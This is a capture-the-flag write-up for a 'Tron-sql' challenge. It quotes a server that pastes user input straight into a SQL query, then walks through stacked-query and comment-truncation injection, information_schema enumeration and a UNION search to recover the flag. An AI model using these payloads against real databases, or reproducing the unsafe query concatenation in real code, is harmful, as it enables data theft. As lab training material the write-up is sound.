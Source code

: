 # Tron-sql
> We've lost Tron on the grid, find him using this uplink!

## Server.py
- The goal is to find Tron, we're given the server.py.
- The server has the following lines:
```python
query_str = request.form['query']
results = query(query_str)

def query(query):
    cursor.execute(query + " ORDER BY name LIMIT 20;")
```
- This means that we can call sql commands by typing into the keyboard.
- Unfortunately there is a limit of 20 results.

## Enumeration
- In this case, MySQLdb allows multiple queries to combined in one execute() call so it can be bypassed by sending 2 queries separated by a semicolon.
```
# Query 1                                       ; Query 2
SELECT table_name FROM information_schema.tables; SELECT 1 from information_schema.tables
```
- Another way to do this is by adding a comment like so:
```
SELECT table_name FROM information_schema.tables; #
```

- Looking at all the table names:
```
CHARACTER_SETS
COLLATIONS
COLLATION_CHARACTER_SET_APPLICABILITY
COLUMNS
COLUMN_PRIVILEGES
ENGINES
EVENTS
FILES
GLOBAL_STATUS
GLOBAL_VARIABLES
KEY_COLUMN_USAGE
OPTIMIZER_TRACE
PARAMETERS
PARTITIONS
PLUGINS
PROCESSLIST
PROFILING
REFERENTIAL_CONSTRAINTS
ROUTINES
SCHEMATA
SCHEMA_PRIVILEGES
SESSION_STATUS
SESSION_VARIABLES
STATISTICS
TABLES
TABLESPACES
TABLE_CONSTRAINTS
TABLE_PRIVILEGES
TRIGGERS
USER_PRIVILEGES
VIEWS
INNODB_LOCKS
INNODB_TRX
INNODB_SYS_DATAFILES
INNODB_FT_CONFIG
INNODB_SYS_VIRTUAL
INNODB_CMP
INNODB_FT_BEING_DELETED
INNODB_CMP_RESET
INNODB_CMP_PER_INDEX
INNODB_CMPMEM_RESET
INNODB_FT_DELETED
INNODB_BUFFER_PAGE_LRU
INNODB_LOCK_WAITS
INNODB_TEMP_TABLE_INFO
INNODB_SYS_INDEXES
INNODB_SYS_TABLES
INNODB_SYS_FIELDS
INNODB_CMP_PER_INDEX_RESET
INNODB_BUFFER_PAGE
INNODB_FT_DEFAULT_STOPWORD
INNODB_FT_INDEX_TABLE
INNODB_FT_INDEX_CACHE
INNODB_SYS_TABLESPACES
INNODB_METRICS
INNODB_SYS_FOREIGN_COLS
INNODB_CMPMEM
INNODB_BUFFER_POOL_STATS
INNODB_SYS_COLUMNS
INNODB_SYS_FOREIGN
INNODB_SYS_TABLESTATS
known_isomorphic_algorithms     <-- These are unique to the db
programs                        <--
to_derezz                       <--
```

- To find column names we can use the information_schema.columns
```
SELECT column_name from information_schema.columns where table_name = 'programs'; SELECT 1 from programs
```

## Solving logic
- We can use wildcards to search through the tables like so
```
SELECT * from known_isomorphic_algorithms WHERE name LIKE '%tron%' UNION SELECT * FROM programs WHERE name LIKE '%tron%' UNION SELECT * FROM to_derezz WHERE name LIKE '%tron%'; SELECT 1 from programs
```


## Solution
```
SELECT * from programs where name like '%Tron%'
flag{I_fight_for_the_users_and_yori}
```
